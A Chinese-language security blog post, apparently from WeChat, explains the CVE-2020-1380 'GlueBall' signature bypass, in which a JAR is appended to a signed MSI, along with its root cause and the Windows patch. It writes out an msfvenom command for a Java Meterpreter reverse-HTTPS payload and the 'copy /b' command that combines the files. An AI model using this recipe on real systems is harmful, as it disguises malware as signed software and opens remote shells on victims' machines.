 \> 本文由 \[简悦 SimpRead\](http://ksria.com/simpread/) 转码， 原文地址 \[mp.weixin.qq.com\](https://mp.weixin.qq.com/s/zmq8ziqbwLzB6MpHijJc7w)

   在之前的公众号文章中，我们曾写过一篇《使用 CVE-2020-0601 进行伪造签名》的文章，里面利用 windows 其对椭圆曲线的逻辑处理错误，可以为任何程序添加可信的数字签名。而今天介绍的是另一种更加简单的方法，来添加数字签名，漏洞编号为 CVE-2020-1380 也称之为 GlueBall。利用该漏洞可绕过安全特征，不正确地加载已签名文件。在攻击场景中，攻击者能够绕过旨在阻止加载不正确签名文件的安全特征。

   我们来看一下这个漏洞，众所周知，在以管理员权限运行时，windows 会弹出 uac 的提示，而拥有数字签名的程序触发 uac 时，为蓝色

![](https://mmbiz.qpic.cn/mmbiz_png/mj7qfictF08Wvru1m78xJwXvOaWibXwMWscsll0tibvBhYsL1SibibryTWt2AOyepficfbuiarLhdmESLQCDodQniaKticA/640?wx_fmt=png)

非数字签名的为黄色

![](https://mmbiz.qpic.cn/mmbiz_png/mj7qfictF08Wvru1m78xJwXvOaWibXwMWswf4I7jqAxLz5dJNKD4OCTkqiaicdEm0B84icoAUdlCLy98GWnGQL3lpzw/640?wx_fmt=png)

而众所周知比较常用的数字签名伪造工具 sigthief 是可以进行签名伪造的，该工具伪造的签名在国内的一些在线测试平台上会显示签名正常，而在 VT 则会显示无效签名，在系统中也会显示签名无效

![](https://mmbiz.qpic.cn/mmbiz_png/mj7qfictF08Wvru1m78xJwXvOaWibXwMWsEKgCJttFqCLYL7xibbLr0fx3SCxiaibdkgLL5cugmFUVG8so6wVaYHN6w/640?wx_fmt=png)

而利用该漏洞签名的文件，则会显示正常

![](https://mmbiz.qpic.cn/mmbiz_png/mj7qfictF08Wvru1m78xJwXvOaWibXwMWsqI1uiaPhLib8p2SgkZkctTBVeYuTuOJ7Qcc4iarGAg2kghoMHyvdNeXxw/640?wx_fmt=png)

注：VT 已针对该漏洞进行更新，VT 可成功检测该漏洞攻击, 会显示 invaild-signature

![](https://mmbiz.qpic.cn/mmbiz_png/mj7qfictF08Wvru1m78xJwXvOaWibXwMWsyb7CSOicFfmNbMnK7jDdN3J3L0Kuztelkic1k4rtQwR9E4VVCxxribleA/640?wx_fmt=png)

下面即对该漏洞进行复现，该漏洞的复现过程很简单，准备一个带有数字签名的 msi 文件，一个恶意的 jar 文件 (可 msf 生成)，然后合成即可，思路如下

![](https://mmbiz.qpic.cn/mmbiz_png/mj7qfictF08Wvru1m78xJwXvOaWibXwMWsPiaTyWflKiaOic14ePoX3ugNFq2k7nurz9OGVQIR2aibMs2YNu1jI21Xdg/640?wx_fmt=png)

```
msfvenom -p java/meterpreter/reverse\_https LHOST=<metasploit host>  LPORT=<metasploit port> -f jar -o xxx.jar
```

然后制作文件

```
copy /b xxx.msi + xxx.jar xxx.jar
```

![](https://mmbiz.qpic.cn/mmbiz_png/mj7qfictF08Wvru1m78xJwXvOaWibXwMWsVchPWLg1vso0Nhv8uDmicyejf79Hlicfnia3ibk5rRzc4nicDiawfDk0c3qA/640?wx_fmt=png)

成功获取 session。其余 java 编写文件都可以使用该方法进行制作，注：只能为 java 文件

![](https://mmbiz.qpic.cn/mmbiz_png/mj7qfictF08Wvru1m78xJwXvOaWibXwMWsHEkSqicLBVzOS3MTGUlHnsvz1EYM8ZEXg49DpxXEgkjntibBquOE9arA/640?wx_fmt=png)

导致该漏洞的原因为当 Windows 读取 MSI 文件时，它会从文件开头开始读取，一直到有效的 MSI 签名末尾结束并舍弃其它部分。因此在检测到合法的 MSI 文件结构后，它会忽略被附加的数据，而不管它是什么。而 JAR 文件只不过是 ZIP 文件，并且在执行时由 Java 运行时从文件末尾开始读取，直到检测到有效 ZIP 文件结构的开头为止，然后它将丢弃文件的其余部分。这最后将造成 indows 开始从开头读取而 JAVA 从末尾读取时, windows 认为其是一个签名文件，而 java 文件也可以正常运行。

现 windows 已更新了相关补丁，主要为 msisip.dll 该文件，加入了 NeedFileSizeVerification 和 VerifyFileSize 两个逻辑，更新系统即可防止该类攻击。

参考文章：

https://blog.csdn.net/smellycat000/article/details/108091187

https://www.secrss.com/articles/24763

https://www.securityinbits.com/malware-analysis/interesting-tactic-by-ratty-adwind-distribution-of-jar-appended-to-signed-msi/

https://www.chainnews.com/zh-hant/articles/041869869233.htm

https://wwws.nightwatchcybersecurity.com/2019/01/16/thoughts-on-the-msi-jar-authenticode-bypass/